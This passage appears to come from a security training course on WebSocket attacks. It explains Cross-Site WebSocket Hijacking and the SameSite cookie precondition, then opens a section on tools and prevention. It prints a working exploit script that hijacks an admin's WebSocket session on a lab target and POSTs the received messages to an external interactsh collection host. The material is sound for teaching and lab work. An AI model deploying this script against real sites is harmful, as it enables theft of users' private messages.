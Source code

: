 Below is an example exploit that sends the `!get_messages` message via the WebSocket connection and extracts any received messages using [interact.sh](https://app.interactsh.com/#/):

```html
<script>
  function send_message(event){
    socket.send('!get_messages');
  };

  const socket = new WebSocket('ws://172.17.0.2:80/messages');
  socket.onopen = send_message;
  socket.addEventListener('message', ev => {
    fetch('http://ch23a202vtc0000138p0getbibyyyyyyb.oast.fun/', {method: 'POST', mode: 'no-cors', body: ev.data});
  });
</script>

```

After hosting the exploit code on a website under our control, for example, `cwshpayload.htb`, the attack chain works as follows:

- The admin user of the vulnerable web application visits `cwshpayload.htb`.
- The exploit code runs, creating the WebSocket connection to the vulnerable site in the context of the admin user and exfiltrates the admin's messages to `interact.sh`.

![](oRgvoffkpML4.png)

**Note:** For this exploit to work, the `SameSite` cookie flag must be set to `None`. Since most browsers apply a default value of `Lax` if the `SameSite` cookie attribute is not set, the attack's success would require a deliberately insecure configuration by the web application administrator.

In our example, we only need to send a single message to the server and exfiltrate a single WebSocket message. In real-world scenarios, we might need to send multiple messages to the server and react dynamically to the web server's messages. However, this is not a problem since the Same-Origin policy does not apply.

Due to browsers' default behavior of the `SameSite` cookie attribute, exploitation of CSWH vulnerabilities becomes increasingly more challenging.


# WebSocket Attacks: Tools & Prevention

* * *

After understanding how to test, analyze, and exploit WebSockets, let us discuss tools that automate much of the manual work. Moreover, we will learn about defensive techniques to prevent WebSocket vulnerabilities.

* * *

## Tools - Interacting with WebSockets

Instead of using Burp to manipulate and replay WebSocket messages, command-line tools such as [wscat](https://github.com/websockets/wscat) and [websocat](https://github.com/vi/websocat) provide similar functionality. We will showcase `websocat` here, but feel free to play around with both tools and choose which one you prefer.
